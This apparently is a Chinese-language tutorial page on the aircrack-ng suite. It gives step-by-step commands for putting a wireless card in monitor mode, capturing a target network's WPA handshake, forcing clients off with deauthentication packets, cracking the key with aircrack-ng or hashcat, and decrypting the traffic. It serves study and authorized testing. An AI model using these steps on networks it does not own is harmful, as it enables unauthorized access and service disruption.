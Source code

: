 # Aircrack

<p align="center">
    <img src="../../../assets/img/logo/aircrack-ng.jpg" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

aircrack 是一个比较出名的用于破解 WEP 和 WPA 加密的无线网络的一款工具，由 6 个不同的部分组成：
1. aircrack-ng 用于破解 WEP 以及 WPA-PSK 密钥。一旦 aircrack-ng 工具收集了足够的信息，aircrack-ng 将会分析这些数据，并试图确定使用中的密钥。
2. airdecap-ng 解读被破解的网络数据包
3. airmon-ng 为使用整个 aircrack-ng 套件配置一个网卡
4. aireplay-ng 在无线网络中产生可能在恢复中的 WEP 密钥所需的流量
5. airodump-ng 捕获被 aircrack-ng 用于破解 WEP 密钥的 802.11 帧
6. tools 为微调提供分类工具箱

**相关文章**
- [记一次曲折的WIFI测试之路](https://www.secpulse.com/archives/96964.html)

---

**配置无线网卡**

- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB 设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    iwconfig
    ```
    出现无线网卡型号即为成功

**无线基础命令**

```bash
iwlist      # 用于对 /proc/net/wireless 文件进行分析,得出无线网卡相关信息
    iwlist wlan0 scanning | grep "ESSID"    # 查看当前所有的 AP 名

iwconfig
    iwconfig wlan0 scanning                 # 扫描无线接入点
    iwconfig wlan0 nickname hacking         # 添加别名
```

---

## 例子

以无线网卡名为 wlan0 举例

```bash
airmon-ng start wlan0   # 启动网卡监听模式
airmon-ng check kill    # 关闭干扰程序

airodump-ng wlan0mon    # 开启抓包,获取附件无线网络
```

| 列名                                        | 含义
|-------------------------------------------|-------------------------
|BSSID(Basic Service SetIdentifier)         |AP 的 MAC 地址
|PWR(Power)                                 | 信号强度
|Beacons                                    |AP 发出的通告编号, 每个接入点 (AP) 在最低速率 (1M) 时差不多每秒会发送 10 个左右的 beacon, 所以它们能在很远的地方就被发现
|Data                                      | 当前数据传输量
|/s                                        | 过去 10 秒钟内每秒捕获数据分组的数量
|CH(Channel)                                |AP 所在的频道
|MB                                         |AP 的最大传输速度; MB=11 => 802.11b,MB=22 => 802.11b+, MB>22 => 802.11g; 后面带. 的表示短封包标头, 处理速度快, 更利于破解
|ENC(Encryption)                            | 使用的加密算法体系
|CIPHER                                     | 检测到的加密算法
|AUTH(Authority)                            | 认证方式
|ESSID(The Extended Service Set Identifier) |AP 的名称

```bash
airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon     # 指定特定的wifi抓握手包,出现 handshake 则抓包成功
# -c 指定信道,上面已经标记目标热点的信道(CH)
# -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
# -w 指定抓取的数据包保存的目录

aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap    # 跑包
```

**使用 hashcat 爆破(只能跑 WPA/WPA2/PSK 加密的)**

用 aircrack-ng 把 cap 转换成 hccap 类型数据包(会自动添加后缀名 .hccap)

```bash
aircrack-ng wireless-01.cap -J wireless
```

```bash
hashcat -m 2500 wireless.hccap pass.txt --force                     # 用hashcat破解WPA/PSK密码
```

若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为
```bash
aircrack-ng wireless-01.cap -j wireless
```

**Deauthentication**

注意如果抓不到握手包把对方踢下线,这样就会抓包成功

```bash
aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon
# -0 冲突攻击模式，后面跟发送次数，一般使用这个模式即可。
# -a 无线网 mac 地址
# -c 连接上的客户端 mac 地址，就是那个 STATION
```

**流量解密**

```bash
airdecap-ng -e [SSID name] -p [Wifi pass] xxx.cap
```
